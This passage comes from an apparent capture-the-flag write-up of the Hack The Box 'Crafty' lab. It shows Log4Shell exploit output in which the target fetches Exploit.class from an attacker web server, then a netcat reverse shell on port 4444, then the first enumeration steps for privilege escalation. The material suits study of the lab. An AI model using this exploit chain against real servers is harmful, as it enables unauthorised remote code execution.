 ```
[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.17:80/Exploit.class
10.10.11.249 - - [18/Jul/2025 00:05:55] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.17:80/Exploit.class
10.10.11.249 - - [18/Jul/2025 00:06:00] "GET /Exploit.class HTTP/1.1" 200 -
Send LDAP reference result for a redirecting to http://10.10.14.17:80/Exploit.class
10.10.11.249 - - [18/Jul/2025 00:06:05] "GET /Exploit.class HTTP/1.1" 200 -


┌──(wither㉿localhost)-[~/Templates/htb-labs/Crafty/log4j-shell-poc]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.249] 49687
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>
```

# Privilege Escalation
By enumerating the file system, we can find some interesting files.
```

c:\Users\svc_minecraft\server>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server

10/26/2023  06:37 PM    <DIR>          .
10/26/2023  06:37 PM    <DIR>          ..
11/14/2023  11:00 PM                 2 banned-ips.json
11/14/2023  11:00 PM                 2 banned-players.json
10/24/2023  01:48 PM               183 eula.txt
07/16/2025  08:23 PM    <DIR>          logs
11/15/2023  12:22 AM                 2 ops.json
10/27/2023  02:48 PM    <DIR>          plugins
10/24/2023  01:43 PM        37,962,360 server.jar
11/14/2023  11:00 PM             1,130 server.properties
07/16/2025  09:09 PM               105 usercache.json
10/24/2023  01:51 PM                 2 whitelist.json
07/16/2025  09:09 PM    <DIR>          world
               8 File(s)     37,963,786 bytes
               5 Dir(s)   3,745,067,008 bytes free

```

I suspect that `server.jar` is a `Minecraft` server. I’ll take a file hash:
```
PS C:\Users\svc_minecraft\server> Get-FileHash -algorithm MD5 server.jar
Get-FileHash -algorithm MD5 server.jar

Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             C10B74188EFC4ED6960DB49C9ADE50CE                                       C:\Users\svc_minecraft\server...

```
Then we can found something useful from `VirusTotal`